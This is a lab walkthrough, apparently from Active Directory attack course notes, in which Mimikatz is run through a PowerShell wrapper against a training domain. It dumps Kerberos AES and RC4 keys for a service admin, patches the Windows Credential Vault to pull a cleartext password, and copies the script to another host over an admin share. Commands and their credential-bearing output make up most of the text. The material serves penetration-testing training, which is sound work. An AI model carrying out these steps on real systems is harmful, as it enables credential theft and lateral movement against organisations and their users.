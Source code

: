 ```powershell
.\Invoke-MimiEX-keys-std867.ps1
```

```powershell
mimikatz(powershell) # sekurlsa::ekeys

Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728


```

Here we find the credentials of the dcorp-adminsrv$, appadmin and websvc users.

#### Create Invoke-MimiEX-vault-std687.ps1

In addition, there are other places to look for credentials. Let's modify Invoke-MimiEx and look for credentials from the Windows Credential Vault. On the student VM:

* Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx-vault-std687.ps1.
* Open Invoke-MimiEX-vault-stdx.ps1 in PowerShell ISE (Right click on it and click Edit).
* Replace "Invoke-Mimi -Command '"sekurlsa::ekeys"' " that we added earlier with "`Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'` " (without quotes).

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Copy Invoke-MimiEx-vault-stdx.ps1 to dcorp-adminsrv and run it. (It needs some minutes for copy process)

```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEX-vault-std687.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

```powershell
.\Invoke-MimiEX-vault-std687.ps1
```

```powershell
mimikatz(powershell) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{D1FE8F15-FC32-486B-94BC-471E4B1C1BB9} / <NULL>
UserName   : dcorp\srvadmin
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : TheKeyUs3ron@anyMachine!
Attributes : 0
```
